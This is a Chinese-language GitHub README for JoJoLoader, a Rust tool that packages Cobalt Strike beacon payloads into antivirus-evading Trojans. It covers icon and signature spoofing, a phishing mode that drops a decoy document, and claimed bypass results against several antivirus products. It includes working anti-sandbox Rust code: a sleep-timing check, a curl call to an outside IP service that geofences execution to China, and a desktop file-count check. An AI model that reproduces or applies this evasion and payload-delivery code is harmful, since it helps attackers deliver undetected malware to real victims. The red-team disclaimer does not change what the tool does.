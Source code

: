 ![JoJoLoader](https://github.com/Pizz33/JoJoLoader/assets/88339946/dd259365-7334-43df-aee5-2d53d39c0fa9)

# JoJoLoader

助力红队成员一键生成免杀木马，使用rust实现 (by_hyyrent)

Help Redteam members generate Evasive Anti-virus software Trojan

更新说明
---
2024/08/07 优化免杀效果：360全家桶✔ 火绒✔ def✔ （病毒库最新）

![image](https://github.com/user-attachments/assets/1708a617-5d70-47d5-8fae-da0b92399f10)

开发背景
---

由于近年使用go来开发loader越来越普遍，导致杀软对go编译程序静态查杀力度增大，尤其是某数字杀软

对之前的go免杀项目千机多次优化后，发现效果仍不太理想，决定重构转投入rust的怀抱，因此有了此项目的诞生！

使用方式
---

与之前开发的千机一样，同样是支持一键化生成，生成自动替换图标签名

生成`stageless payload`

![image](https://github.com/Pizz33/JoJoLoader/assets/88339946/49ddd939-32c3-495f-8ab7-a6f649a3a138)

把 `beacon_x64.bin` （习惯使用4.7以上版本的CS，默认名称即是，其他版本自行改名）放置在当前目录下

![image](https://github.com/Pizz33/JoJoLoader/assets/88339946/294efecb-b0bf-45cc-afac-7a107cac3b14)

点击 `一键生成.bat`，等待免杀木马生成

![image](https://github.com/Pizz33/JoJoLoader/assets/88339946/6ad29be8-7a42-4348-8606-113caee887f0)

输出免杀木马在 `output` 文件夹下，随机六位数命名

其中sign标签文件为自动替换签名后的免杀木马，添加图标和签名最大化bypassQVM

![image](https://github.com/Pizz33/JoJoLoader/assets/88339946/7b30c675-acb4-40ae-9045-1d92afbc97b7)

钓鱼场景-释放正常文档
---

贴合实战钓鱼场景，支持正常文件释放，捆绑文档存放在 `bundle` 文件夹下

默认放置打开损坏文档，实战根据需求自行修改代码

![image](https://github.com/Pizz33/JoJoLoader/assets/88339946/4ca87739-3dfc-4a07-bda0-0cf5b0c90505)

如果不需要捆绑文件，把对应行注释即可

![image](https://github.com/Pizz33/JoJoLoader/assets/88339946/7b5b4ed6-5f7f-431c-9502-be82a31dd74b)

程序图标
---

在 static 目录下放置了四个常见图标，可修改`icon.rc`对应名称进行调用

![image](https://github.com/Pizz33/JoJoLoader/assets/88339946/9480ea64-e78f-4ce3-bda7-a2a6bc451688)

免杀效果展示
---
**360和火绒**

![image](https://github.com/Pizz33/JoJoLoader/assets/88339946/b6fb7409-4560-493c-bf2e-a3198837ca70)

**360杀毒**

装了杀毒之后的360性能变强，qvm有时很玄学，如若碰到QVM情况尝试更换图标

![image](https://github.com/Pizz33/JoJoLoader/assets/88339946/bfc2da65-49e7-4a97-bb83-9c0420edb034)

**defender**

![image](https://github.com/Pizz33/JoJoLoader/assets/88339946/f6c49329-8cd9-48d7-af33-130fa165c3ee)

**微步**

项目发布时现测试，测试结果为安全

![image](https://github.com/Pizz33/JoJoLoader/assets/88339946/1ebe6cba-b85e-4964-843a-1f54a279f591)

卡巴斯基 ESET

国外edr会扫描内存，需要对bin进行二开，单靠loader局限性很大，以下测试是基于二开的bin

![image](https://github.com/Pizz33/JoJoLoader/assets/88339946/f5c66ab3-9034-49af-b01d-a7bc4bf12fc7)

![image](https://github.com/Pizz33/JoJoLoader/assets/88339946/5ce2e534-d1cb-4865-898b-6187dbf84d3d)

环境安装
---
https://www.rust-lang.org/zh-CN/tools/install

![image](https://github.com/Pizz33/JoJoLoader/assets/88339946/a1b8b73a-5545-4797-b2d3-b2605640b7a7)

下载安装相应的版本，双击运行，默认选择模式1进行安装，然后配置环境变量即可

![image](https://github.com/Pizz33/JoJoLoader/assets/88339946/bb0a690c-1703-4b49-8b43-20b70de024a8)

如若安装后编译失败运行以下命令

```
rustup default stable-x86_64-pc-windows-msvc
```

反沙箱
---
反沙箱不是越多越好，只保留比较好用的三个，兼容绝大部分环境，并且尽量避免上传沙箱后虚拟主机上线

### 流速检测 ###

```
pub fn flow_time() {
    use std::time::{Duration, Instant};
    use std::thread::sleep;

    let start_time = Instant::now();

    sleep(Duration::from_millis(5000));

    let elapsed_time = start_time.elapsed();

    if elapsed_time.as_millis() < 5000 {
        std::process::exit(1);
    }
}
```

这个函数判断时间是否在沙箱内进行加速

### 检查出口 IP ###

```
fn ip() {
    let output = Command::new("cmd")
        .args(&["/c", "curl -s https://myip.ipip.net/"])
        .creation_flags(CREATE_NO_WINDOW)
        .output()
        .expect("Failed to execute command");

    if !output.status.success() {
        std::process::exit(1);
    }

    let body = str::from_utf8(&output.stdout).expect("Failed to parse response");

    if body.contains("中国") {
    } else {
        std::process::exit(1);
    }
}
```

这个函数通过 `curl` 命令获取出口 IP，如果不在中国则退出程序

### 检查桌面文件数量 ###

```
fn check_desktop() {
    let desktop_path = get_desktop_path().expect("无法获取桌面路径");

    let entries = match fs::read_dir(&desktop_path) {
        Ok(entries) => entries,
        Err(_) => {
            std::process::exit(1);
        }
    };

    let file_count = entries.filter_map(|entry| entry.ok()).count();

    if file_count < 10 {
        std::process::exit(1);
    } else {
    }
}

fn get_desktop_path() -> Option<PathBuf> {
    let home_dir = dirs::home_dir()?;
    #[cfg(target_os = "windows")]
    return Some(home_dir.join("Desktop"));
    None
}
```
这个函数获取桌面路径并检查文件数量是否小于 10，如果小于 10 则退出程序

声明
---
- 仅限用于技术研究和获得正式授权的攻防项目，请使用者遵守《中华人民共和国网络安全法》，切勿用于任何非法活动，若将工具做其他用途，由使用者承担全部法律及连带责任，作者及发布者不承担任何法律及连带责任！

- 使用前先按照文档步骤一步一步来，报错问题自行百度解决，类似issue不予回复，感谢理解！

reference
---
代码有借鉴学习以下项目，commit当晚通宵没来得及写，现补上，另外免杀性失效自行修改代码，楼主仅提供一种思路，祝玩得开心♥

https://github.com/joaoviictorti/RustRedOps

https://github.com/xiao-zhu-zhu/RustBypassMap
